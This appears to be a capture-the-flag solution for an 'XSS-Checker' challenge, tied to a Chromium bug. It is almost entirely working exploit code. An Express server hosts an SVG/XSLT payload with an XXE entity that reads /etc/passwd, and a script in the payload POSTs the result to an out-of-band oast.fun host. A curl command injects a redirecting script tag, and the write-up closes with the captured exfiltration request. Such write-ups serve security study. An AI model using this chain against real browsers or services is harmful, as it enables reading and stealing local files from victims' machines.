 # XSS-Checker - Solve

https://bugs.chromium.org/p/chromium/issues/detail?id=1458911

> User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/115.0.5790.170 Safari/537.36

## Build the exploit

**app.js**
```javascript
const express = require('express');
const path = require('path');

const app = express();
const port = 9090;

app.get('/exploit', (req, res) => {
  res.sendFile(path.join(__dirname, 'exploit.svg'));
});

app.get('/xxe', (req, res) => {
  res.set('Access-Control-Allow-Origin', '*');
  res.sendFile(path.join(__dirname, 'exploit.xsl'));
});

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`);
});
```

**exploit.xsl**

```xsl
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE p [
<!ENTITY file SYSTEM "file:///etc/passwd">
]> 

<p>&file;</p>
```

**exploit.svg**

```xml
/DATA/XLST cat exploit.svg 
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="#"?>

<xsl:stylesheet id="color-change" version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

 <xsl:template match="/">
	<svg version="1.1" id="Capa_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" x="0px" y="0px" viewBox="0 0 1000 1000">
		<script>
		const url = "https://cmfz2gt2vtc0000nwj30gk89tjayyyyyb.oast.fun"
        setTimeout(() => {
            const lfi = document.getElementById("lfi").innerHTML;
			fetch(url, { method: "POST", body: lfi})
        }, 50)
        </script>
        <foreignObject id="lfi" width="1000" height="1000">
		    <div style="font-size:xxx-large" xmlns="http://www.w3.org/1999/xhtml">
			<xsl:copy-of  select="document('xxe')"/>
		    </div>
		</foreignObject>
	</svg>
 </xsl:template>
</xsl:stylesheet>
```

Run the application

```bash
npm i express

node app.js
```

## Trigger the exploit

```bash
curl 'http://0.0.0.0:8000/xss-check' -X POST -H 'Content-Type: application/json' -H 'X-Requested-With: XMLHttpRequest' --data-raw '{"html":"<script>document.location=\"https://xlst.i-will-pwn-your.host/exploit\"</script>"}'
```

```html
<script>document.location="https://xlst.i-will-pwn-your.host/exploit"</script>
```


### Out Of Band Server : 

```http
POST / HTTP/2.0
Host: cmfz2gt2vtc0000nwj30gk89tjayyyyyb.oast.fun
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Length: 118
Content-Type: text/plain;charset=UTF-8
Origin: https://xlst.i-will-pwn-your.host
Referer: https://xlst.i-will-pwn-your.host/
Sec-Ch-Ua: "Not/A)Brand";v="99", "HeadlessChrome";v="115", "Chromium";v="115"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: cross-site
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/115.0.5790.170 Safari/537.36

<div xmlns="http://www.w3.org/1999/xhtml" style="font-size:xxx-large"><p xmlns="">GH{XsS_T0_bR0wS3r_3xpl0it}</p></div>
```